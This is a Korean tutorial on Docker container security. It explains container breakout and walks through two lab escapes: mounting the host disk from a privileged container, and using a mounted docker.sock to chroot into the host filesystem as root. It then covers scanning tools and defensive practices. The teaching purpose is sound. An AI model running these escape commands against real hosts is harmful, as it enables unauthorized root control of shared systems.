

## 1. 개요

**Docker**와 같은 컨테이너 기술은 편리함과 효율성을 제공하지만, 호스트 운영체제의 커널을 공유한다는 구조적 특성으로 인해 가상 머신(VM)과는 다른 보안 위협이 존재한다.
특히 컨테이너 내부에서 호스트 시스템으로 권한을 획득하는 **컨테이너 탈출(Container Breakout)** 공격은 클라우드 환경 전체를 장악당할 수 있는 치명적인 위협이다.

---

## 2. 실습 환경

### 취약한 Docker 환경
```bash
# Privileged 탈출 실습
docker run -it --privileged ubuntu bash

# Socket Mount 탈출 실습
docker run -it -v /var/run/docker.sock:/var/run/docker.sock docker sh
```

---

## 3. 컨테이너 탈출 기법

### 방법 1: Privileged Mode



**취약한 실행:**
```bash
docker run -d --privileged --name vuln ubuntu sleep 3600
```

**탈출 실습:**
```bash
docker exec -it vuln /bin/bash
mkdir /mnt/host
mount /dev/sda1 /mnt/host
# 이제 /mnt/host를 통해 호스트 파일시스템 접근 가능
```


---

### 방법 2: Docker Socket Mount

Docker 소켓을 컨테이너에 마운트하면, 컨테이너 내부에서 호스트의 Docker 데몬을 제어할 수 있다.

**취약한 실행:**
```bash
docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu bash
```

**탈출 실습:**
```bash
# 컨테이너 내부에서 Docker CLI 설치
apt update && apt install -y docker.io

# 호스트 파일시스템을 마운트한 새 컨테이너 생성
docker run -it -v /:/host ubuntu chroot /host
```

> 결과: 호스트의 root 권한 획득

---

## 4. 보안 위협 요약

| 위협 | 설명 | 위험도 |
|------|------|--------|
| **Privileged Mode** | 호스트 모든 장치 접근 가능 | 🔴 Critical |
| **Docker Socket Mount** | Docker 데몬 제어 가능 | 🔴 Critical |
| **이미지 취약점** | 베이스 이미지에 CVE 포함 | 🟠 High |
| **Root 실행** | 컨테이너가 root로 실행됨 | 🟠 High |

---

## 5. Dockerfile 보안 모범 사례

### Root가 아닌 사용자로 실행
```dockerfile
RUN useradd -m appuser
USER appuser
CMD ["python", "app.py"]
```

### 민감 정보 포함 금지
*   API 키, 비밀번호를 `ENV`로 하드코딩 금지
*   `Docker Secrets` 또는 런타임 환경 변수 주입 사용

### 신뢰할 수 있는 베이스 이미지
```dockerfile
# latest 대신 구체적 버전 명시
FROM python:3.9-slim
```

---

## 6. 보안 도구

### Trivy (이미지 스캐너)
```bash
trivy image python:3.4-alpine
```

### Docker Bench Security
```bash
docker run -it --net host --pid host --cap-add audit_control \
  -v /var/lib:/var/lib -v /var/run/docker.sock:/var/run/docker.sock \
  docker/docker-bench-security
```

---

## 7. 방어 대책

### 런타임 보안
*   **Privileged 모드 금지**: 프로덕션 환경에서 `--privileged` 플래그 사용을 절대 금지한다.
*   **Docker Socket 마운트 금지**: 컨테이너에 `/var/run/docker.sock`을 절대 마운트하지 않는다.
*   **Read-Only 파일시스템**: `--read-only` 플래그로 컨테이너 파일시스템을 읽기 전용으로 설정한다.

### 네트워크 격리
*   **사용자 정의 네트워크**: 기본 `bridge` 대신 격리된 사용자 정의 네트워크를 사용한다.
*   **불필요한 포트 노출 금지**: 필요한 포트만 `-p` 옵션으로 노출한다.

### 이미지 관리
*   **정기적 스캔**: CI/CD 파이프라인에 Trivy 등 이미지 스캐너를 통합한다.
*   **베이스 이미지 업데이트**: 최신 보안 패치가 적용된 베이스 이미지를 사용한다.

<hr class="short-rule">